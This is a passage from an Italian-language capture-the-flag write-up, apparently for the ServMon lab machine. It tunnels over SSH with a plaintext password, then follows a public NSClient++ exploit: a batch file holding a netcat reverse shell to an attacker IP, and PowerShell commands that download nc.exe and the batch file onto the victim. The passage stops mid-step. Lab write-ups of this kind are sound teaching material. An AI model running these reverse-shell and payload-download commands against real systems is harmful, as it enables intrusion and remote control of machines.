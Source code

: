 Ottengo però questo errore.

Controllando il file "nsclient.ini" trovato in precedenza scopro che è permesso l'accesso soltanto da locale (127.0.0.1). Provo quindi a realizzare un tunnel tramite _sshpass_:

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

Questa volta riesco ad accedere:

<p align="center">
  <img src="/Immagini/Windows-Box/ServMon/servmon-9.png"/>
</p>

Ora seguo i passaggi di questo [exploit](https://www.exploit-db.com/exploits/46802).

Creo il file "evil.bat" contenente il seguente testo:

```githubexploit
C:\ProgramData\nc.exe 10.10.14.8 6666 -e cmd
```

Carico i file [nc.exe](https://github.com/int0x33/nc.exe/) e evil.bat sulla macchina vittima:

```bash
powershell Invoke-WebRequest http://10.10.14.8:1111/nc.exe -OutFile C:\ProgramData\nc.exe
powershell Invoke-WebRequest http://10.10.14.8:1111/evil.bat -OutFile C:\ProgramData\evil.bat
```

Quindi vado su "Settings -> External Scripts -> Scripts -> + Add new" e inserisco i seguenti valori:

<p align="center">